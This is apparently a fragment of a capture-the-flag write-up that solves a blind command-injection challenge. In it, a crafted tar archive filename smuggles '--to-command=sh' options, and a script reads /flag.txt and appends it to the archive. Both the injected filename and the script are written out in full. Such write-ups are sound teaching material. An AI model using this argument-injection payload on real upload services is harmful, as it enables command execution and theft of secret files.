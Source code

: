utflag{bl1nd_c0mmand_1nj3ct10n?_n1c3_w0rk}



**NOTE:** When I went back and did this writeup, my exploit wasn't working! Why? 
When you upload the tar file, it actually gets uploaded! If you try to upload another file with the same name, it will error out because it already exists.
You have to change the filename on each run for it to actually work.

&nbsp;

tl;dr 

&nbsp;

Filename of tar archive
```
exploit* --to-command=sh append.sh --mtime=*.tar
```


Script inside of the tar archive

```
var=$( cat /flag.txt )
touch $var
tar -rvf exploit* $var
```